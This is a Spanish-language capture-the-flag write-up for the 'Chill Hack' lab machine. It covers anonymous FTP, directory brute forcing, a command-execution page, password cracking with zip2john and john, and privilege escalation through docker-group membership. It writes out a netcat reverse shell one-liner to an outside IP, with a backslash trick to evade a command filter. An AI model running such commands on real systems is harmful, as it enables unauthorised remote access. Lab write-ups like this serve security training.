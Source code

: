 # RESOLUCIÓN DE LA MÁQUINA CHILL HACK

## TASK 1 - INVESTIGATE!

Servicio ftp abierto con el usuario anonymous, hay un archivo txt dentro.

![image](https://github.com/user-attachments/assets/642f7a53-af42-497e-ab0f-d24d6d5c5f10)

![image](https://github.com/user-attachments/assets/0edde0a3-6cfe-4c2d-b75a-589d0faf3f02)

Hacemos fuerza bruta con gobuster y encontramos un directorio llamado /secret, que nos permite ejecutar comandos.

![image](https://github.com/user-attachments/assets/100abad4-4904-45ac-bd69-44d9fee92a3b)

![image](https://github.com/user-attachments/assets/c5cefd02-5b27-41a3-8d1d-28ae1d72c8c1)

Hacemos una reverse shell, pero poniendo una contrabarra al inicio para que nos acepte el comando.

r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.95.199 4444 >/tmp/f

![image](https://github.com/user-attachments/assets/cd4fa8d5-e6c4-47ab-b662-8474c7e6ee83)

User Flag

![image](https://github.com/user-attachments/assets/a5b0f006-ca3d-47ce-960b-4304123c679b)

Root Flag

![image](https://github.com/user-attachments/assets/dfe330e5-0def-4776-a7af-456917f38b06)

![image](https://github.com/user-attachments/assets/b4bc34df-24b4-4547-b127-a86f4774bfef)

Ahora hacemos un zip2john, un john y un unzip. Y ganamos acceso a un archivo que contiene una contraseña en base64.

![image](https://github.com/user-attachments/assets/4fdc6a09-559c-40d9-ab34-ab5be0368576)

La decodeamos, introducimos las credenciales obtenidas y ganamos acceso.

![image](https://github.com/user-attachments/assets/266baffd-0b1f-45ef-a9b9-499ccd6fa4d5)

Al ver que el usuario pertence al grupo docker nos vamos al GTFObins.

![image](https://github.com/user-attachments/assets/ac7a02e3-9827-48d9-9e57-319073caba2a)

Lo ejecutamos y ya somos root.

![image](https://github.com/user-attachments/assets/e94d565d-efbd-43ac-bc6a-635f995b70f8)





